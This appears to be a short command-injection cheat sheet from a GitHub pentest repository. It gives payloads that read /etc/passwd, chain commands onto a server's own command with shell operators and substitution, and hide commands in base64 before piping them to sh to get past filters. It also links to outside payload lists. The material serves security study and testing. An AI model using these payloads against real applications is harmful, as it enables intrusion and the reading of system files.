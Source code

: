 
# Command Injection
Command injection is a security vulnerability that allows an attacker to execute arbitrary commands inside a vulnerable application

## Basics
#### Basic commands
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

#### Chaining commands
```bash
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
# Work only if the first cmd fail
original_cmd_by_server || ls   
```

#### Inside a command
```bash
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

## Base64 Encode / Decode

```bash
# Encode Base64
echo "ls -al /" | base64

# Decode base64 and execute it
echo "bHMgLWwgLwo=" | base64 -d | sh
base64 -D <<< bHMgLWwgLwo= | sh
```

## Command Injection payload list
- https://github.com/payloadbox/command-injection-payload-list#unix-
- https://github.com/payloadbox/command-injection-payload-list#windows-

## Bypassing command injection filters
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses


